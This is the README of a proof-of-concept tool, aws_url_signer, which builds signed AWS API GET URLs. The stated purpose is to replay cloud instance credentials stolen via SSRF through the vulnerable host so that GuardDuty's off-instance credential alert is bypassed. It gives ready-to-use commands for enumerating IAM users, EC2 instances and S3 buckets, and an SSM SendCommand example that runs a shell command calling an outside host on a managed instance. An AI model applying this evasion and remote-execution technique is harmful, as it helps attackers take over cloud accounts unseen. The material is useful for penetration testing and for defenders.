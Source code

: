 # aws_url_signer

POC tool to create signed AWS API GET requests to bypass Guard Duty alerting of off-instance credential use via SSRF

# What?

AWS has a Guard Duty alert to advise when an AWS instance credential is used outside of the instance itself. This will give you as the account owner a heads up when the instance credentials are stolen using a vulnerability like a Server Side Request Forgery (SSRF) from the Metadata URL and then subsequently used.

This alerting relies on the instance credential being taken off the owning host and then used to make an AWS API query from a machine that is not in the associated AWS account. This is a common circumstance when instance credentials are comprimised via SSRF - attacker gets the instance creds from the metadata service on a vulnerable EC2 host, configures those credentials locally on their own local machine, and then calls the AWS API from there to try and further compromise the associated AWS account.  

Even though its not obviously exposed in the various client libraries (except for S3 signed URLs) however, it is possible to make general requests of the AWS API using HTTP GET requests. This approach enables you to create signed URLs to query the AWS API, send them via the same mechanism by which you compromised the credentials in the first place (e.g. SSRF), and bypass the Guard Duty alerting. This is because AWS API calls made in this way are not being made outside of the AWS account owning the credential - because you make the API call by sending the URL through the SSRF, from the perspective of the API server they are coming from the same EC2 instance that owns that credential.

There is [another approach](https://github.com/Frichetten/SneakyEndpoints) available to also bypass these alerts, but in comparison this method requires much less infrastructure and setup and can support more services. As a downside however, this approach prevents you from being able to use existing offensive tools that work with compromised credentials, requires a potentially greater understanding of the AWS API, and may be limited by the retrieval capabilities of the SSRF used.


# Usage

This tool is a proof of concept that implements the AWS v4 API signing algorithm for GET URLS. It has very minimal requirements, using `botocore` just to get the list of available services and API versions. 

It has a simple command line interface to run standalone and can also be imported as a module into other Python 3 code to allow it to be more easily used with other exploit code (e.g. SSRF, XXE, etc).

In the very simplest form, you can set your stolen credentials into the standard environment variables (`AWS_ACCESS_KEY_ID`, `AWS_SECRET_ACCESS_KEY` and `AWS_SESSION_TOKEN`) and call the tool like the following to run the `GetCallerIdentity` action for the `sts` service.

```
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
```

This will spit out a signed URL, with a 180 second expiry time, that can be sent in your exploit to make the associated API call. The response will tell you about the  "caller Identity" of the credential you have.

You can do more complex stuff by sending parameters to the call as a JSON encoded string.

The following example uses SSM to generate a URL to remotely execute code against a managed Linux instance `i-xxxxxxxxxxxxxxxxx` in the account.

```
./aws_url_signer.py -environment -service ssm -action SendCommand -region ap-southeast-2 -parameters '{"InstanceIds": ["i-xxxxxxxxxxxxxxxxx"], "DocumentName": "AWS-RunShellScript", "Parameters": {"commands": ["curl http://test.site/123"]}}'
```


You can also stick the .py file in your Python path and use it in your code like so.

```
from aws_url_signer import AWSApiUrlGenerator

api = AWSApiUrlGenerator(access_key, secret_key, session_token)
request_url = api.create_service_url('s3', 'ListBuckets', region='ap-southeast-2')

```

To a large extent you do need to know the AWS API to be able to use this in a useful way, although I have provided some of the examples I have personally tested below.  To some extent you can use it in a similar way to the [AWS cli](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html), but the parameter format will be different in a number of cases, so you can combine it with the general API documentation [here](https://docs.aws.amazon.com/index.html). Find the service you want, and take what would normally be sent in a POST request for a particular API call and supply it JSON encoded to the `parameters` option, and it _SHOULD_ work.




# Warning 

This is a signed https URL that can perform AWS API calls as the compromised user. Standard warnings for leaving the URL where others can see it or having it leaked in logs or other intermediate devices applies. The URLs do expire after a default period of 180 seconds, so there is a limit to how long after they are generated they can be used.


# Alpha code

This should be considered Alpha quality code.

At the time of writing there are 313 services currently supported in the AWS API - I have only tested a small fraction of them that I personally needed to prove impact of SSRF related vulnerabilities.

While the AWS v4 API signing process is more or less standard across the various supported services, there are differences in where regional endpoints sit, and the specific nature of the signed payload and signing process for some services. This could mean that some services I have not specifically tested may not work, but I think many probably will.

The process by which more complex parameter structures are converted into GET compatible versions is also rather unique. It's possible my code to convert parameters from a standard JSON compatible format is wrong or incomplete, and this will only become clear once someone tries to send parameters more complex than the SSM code execution example above.

Feel free to raise issues or PRs if you find any problems.


# Examples

Here are some examples of running the command line version of the tool. There are some additional commented examples for using the module in code in the source.
```
./aws_url_signer.py -environment -service iam -action ListUsers
./aws_url_signer.py -environment -service sts -action GetCallerIdentity
./aws_url_signer.py -region ap-southeast-2 -environment -service ssm -action DescribeInstanceInformation 
./aws_url_signer.py -region ap-southeast-2 -environment -service ec2 -action DescribeInstances -parameters '{"MaxResults": "5"}'
./aws_url_signer.py -region ap-southeast-2 -environment -service s3 -action ListBuckets
```
